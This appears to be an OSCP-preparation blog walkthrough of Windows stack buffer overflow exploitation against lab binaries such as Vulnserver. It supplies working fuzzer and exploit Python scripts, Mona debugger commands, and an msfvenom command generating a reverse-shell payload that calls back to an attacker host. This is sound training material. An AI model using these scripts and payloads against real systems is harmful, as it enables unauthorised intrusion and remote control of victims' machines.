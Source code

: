 ```yaml
---
date: '2025-02-02T00:20:03+05:30'
draft: false
title: 'Buffer Overflow Guide: OSCP Preparation'
slug: buffer-overflow-oscp
tags: ["oscp", "buffer-overflow", "exploit-development", "windows", "debugging"]
category: writeups
showtoc: true
summary: A comprehensive guide to Windows buffer overflow exploitation, including fuzzing, finding bad characters, and generating shellcode
description: Detailed walkthrough of the buffer overflow exploitation process using Immunity Debugger and Mona, perfect for OSCP exam preparation
---
```


# Windows Buffer Overflow Exploitation Guide

## Initial Setup

### Remote Desktop Access
```bash
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

### Available Binaries
- SLMail installer
- Brainpan binary
- Dostackbufferoverflowgood binary
- Vulnserver binary
- Custom "oscp" binary (10 different buffer overflows)

## Exploitation Process

### 1. Mona Configuration

Configure working directory in Immunity Debugger:
```
!mona config -set workingfolder c:\mona\%p
```

### 2. Fuzzing

Create `fuzzer.py`:
```python
#!/usr/bin/env python3
import socket, time, sys

ip = "target-ip"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### 3. Crash Replication

Create `exploit.py`:
```python
import socket

ip = "target-ip"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### 4. Finding the Offset

1. Generate pattern:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

2. Find offset in Immunity Debugger:
```
!mona findmsp -distance 600
```

![Pattern Generation](images/buffer-overflow-1.png)

### 5. Finding Bad Characters

1. Generate bytearray in Mona:
```
!mona bytearray -b "\x00"
```

2. Generate bad chars in Python:
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

3. Compare in Mona:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

### 6. Finding Jump Point

Find "jmp esp" instruction:
```
!mona jmp -r esp -cpb "\x00"
```

### 7. Generating Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

### 8. Final Exploit Structure

1. Prefix: Command string
2. Offset: Buffer size to EIP
3. Return Address: JMP ESP address (reversed)
4. NOPs: "\x90" * 16
5. Shellcode: Generated payload

## Best Practices

1. **Debugging Process**
   - Always restart the application
   - Clear debugger logs
   - Take notes of crashes

2. **Bad Character Analysis**
   - Start with \x00
   - Check for cascading corruption
   - Verify multiple times

3. **Shellcode Generation**
   - Use appropriate EXITFUNC
   - Include all bad chars
   - Add sufficient NOPs

## Common Issues

1. **Application Crashes**
   - Incorrect offset
   - Bad character corruption
   - Invalid return address

2. **Failed Exploitation**
   - Insufficient NOP sled
   - Incorrect bad char list
   - Network connectivity issues

## Tools Used

1. **Immunity Debugger**
   - Process debugging
   - Memory analysis
   - Crash investigation

2. **Mona.py**
   - Pattern creation
   - Bad char analysis
   - Jump point finding

3. **MSFvenom**
   - Shellcode generation
   - Payload encoding
   - Bad char handling

## References

1. [Tib3rius Pentest Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
2. [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
3. [Mona Documentation](https://github.com/corelan/mona)
4. [OSCP Buffer Overflow Guide](https://www.offensive-security.com/)
